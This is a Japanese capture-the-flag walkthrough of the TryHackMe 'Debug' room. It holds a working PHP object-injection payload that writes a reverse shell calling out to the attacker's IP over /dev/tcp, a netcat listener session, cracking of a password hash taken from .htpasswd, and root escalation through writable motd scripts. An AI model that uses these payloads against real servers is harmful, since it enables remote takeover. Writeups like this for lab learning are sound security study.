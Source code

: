 # Debug CTF

https://tryhackme.com/room/debug

## Enumeration

```shell
TARGET=10.10.234.231
sudo bash -c "echo $TARGET   debug.thm >> /etc/hosts"
```

### ポートスキャン

```sh
rustscan -a $TARGET

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

SSH,HTTPのみ。


### dirsearch

```sh
$ dirsearch --url http://$TARGET

[15:43:10] 200 -  572B  - /backup/                                          
[15:43:44] 200 -    2KB - /index.php                                        
[15:43:44] 200 -    2KB - /index.php/login/                                 
[15:43:46] 301 -  317B  - /javascript  ->  http://10.10.55.255/javascript/  
[15:44:07] 200 -    2KB - /readme.md 
```

index.php で、Baseフレームワークのサンプルページのようなものが表示される。

/backup/ で index.php.bak などを発見。

index.php.bak (PHP部分のみ抜粋)

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

        $this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>

  <address>
    22 Test Street Melbourne, Victoria, 3000<br>
    <abbr title="Telephone">T:</abbr> <strong>1234 1234</strong> &nbsp;|&nbsp; <a href="mailto:">Send us an email!</a>
  </address>

  <hr>

</div>


<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.7.2/jquery.min.js"></script>
<script src="javascripts/default.js"></script>

</body>
</html>
```

index.php で名前などを入力後、適当にSubmitするとmessage.txtに保存されている。

http://debug.thm/message.txt

```
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From : test || From Email : thm@thm.com || Comment : abcdefg
```

FormSubmitをシリアライズするPHP。

```php
<?php
class FormSubmit {
public $form_file = 'shell3.php';
public $message = '<?php exec("/bin/bash -c \'/bin/sh -i >& /dev/tcp/10.13.85.243/8888 0>&1\'"); ?>';
}
echo urlencode(serialize(new FormSubmit()));
?>
```

```sh
$ php ./serial.php
O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A10%3A%22shell3.php%22%3Bs%3A7%3A%22message%22%3Bs%3A78%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27%2Fbin%2Fsh+-i+%3E%26+%2Fdev%2Ftcp%2F10.13.85.243%2F8888+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```

シェル取得成功。

```sh
$ nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.234.231] 34248
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## 権限昇格１

jamesを目指す。

```sh
www-data@osboxes:/var/www/html$ ls -al /home
total 28
drwxr-xr-x  4 root  root   4096 Mar 10  2021 .
drwxr-xr-x 24 root  root   4096 Feb 28  2019 ..
drwx------ 17 james james  4096 Mar 10  2021 james
drwx------  2 root  root  16384 Feb 28  2019 lost+found
```

.htpasswdにjamesのパスワードハッシュがあった。

```sh
www-data@osboxes:/var/www/html$ cat .htpasswd
james:[REDACTED]
```

パスワードをrockyou.txt でクラックでき、SSH接続可能に。

## 権限昇格２

```sh
james@osboxes:~$ cat ./Note-To-James.txt 
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

SSHウェルカムメッセージを変更可能にしているとのこと。

```sh
james@osboxes:~$ ls -al ls -al /etc/update-motd.d
ls: cannot access 'ls': No such file or directory
/etc/update-motd.d:
total 44
drwxr-xr-x   2 root root   4096 Mar 10  2021 .
drwxr-xr-x 134 root root  12288 Mar 10  2021 ..
-rwxrwxr-x   1 root james  1220 Mar 10  2021 00-header
-rwxrwxr-x   1 root james     0 Mar 10  2021 00-header.save
-rwxrwxr-x   1 root james  1157 Jun 14  2016 10-help-text
-rwxrwxr-x   1 root james    97 Dec  7  2018 90-updates-available
-rwxrwxr-x   1 root james   299 Jul 22  2016 91-release-upgrade
-rwxrwxr-x   1 root james   142 Dec  7  2018 98-fsck-at-reboot
-rwxrwxr-x   1 root james   144 Dec  7  2018 98-reboot-required
-rwxrwxr-x   1 root james   604 Nov  5  2017 99-esm
```

リバースシェルコードを追加。

```sh
james@osboxes:/etc/update-motd.d$ nano 00-header
```

rootシェル取得成功。

```sh
$ nc -lnvp 8889
listening on [any] 8889 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.234.231] 54072
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```


## 振り返り

- 最初、シリアライズ文字列をURLエンコードせずに使っていたためなかなか成功せず苦労した。
- デシリアライズ時にクラス名をもとに紐づくことをよく理解できていなかった。PHPデシリアライズの良い復習になった。
- リバースシェルコードを `/bin/bash -c ''` で囲むと成功率が高いことに今更ながら気づいた。
